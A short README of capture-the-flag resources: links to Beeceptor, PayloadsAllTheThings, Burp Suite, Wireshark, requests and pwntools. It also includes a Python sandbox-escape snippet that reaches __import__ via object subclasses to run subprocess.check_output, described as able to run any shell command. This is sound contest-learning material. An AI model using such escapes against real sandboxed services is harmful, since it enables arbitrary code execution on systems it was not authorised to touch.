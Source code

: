 # CTF-Things
************************
# A list of useful things that can help you in CTFs.
-----------------------------
## Websites

[###Beeceptor](https://beeceptor.com/)
```
A website where you can create a mock api that can act as your server and recive requests.
```

-----------------------
## Payloads

[###Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings)
```
A useful repository that has all kinds of payload for a lot of diffrent attacks.
```

### A Python code that can call a function from any library without using the import statment.
```
[t for t in ().__class__.__base__.__subclasses__() if t.__name__ == 'Sized'][0].__len__.__globals__['__builtins__']['__import__'](<the library name>).<the function>

example:
[t for t in ().__class__.__base__.__subclasses__() if t.__name__ == 'Sized'][0].__len__.__globals__['__builtins__']['__import__']().check_output(['ls', '-l'])

In this example we call the check_output function from the subprocess library.
This example can essentioly run any shell code on the machine using python.
```

-----------------------------
## Tools

[###Burp suite](https://portswigger.net/burp/communitydownload)
```
Everyone knows burpsuite, but for those who dont I can explain:
essentialy burp suite let you see your http traffic, act as a proxy, change http requests, and a lot more!!!
```


[###Wireshark](https://www.wireshark.org/)
```
Another classic like burp suite...
Wireshark lets you sniff the network traffic on your computer and open sniffs files.
```
-----------------------------
## Python libraries

[###Requests](https://pypi.org/project/requests/)
```
A python library that lets you send http requests on the web.
```

[###Pwn tools](https://docs.pwntools.com/en/stable/)
```
A python library that gives you a lot of tools to use in CTFs.
Tools like - netcat from a script with the pwn.remote function, analizing binary files.
```

******************
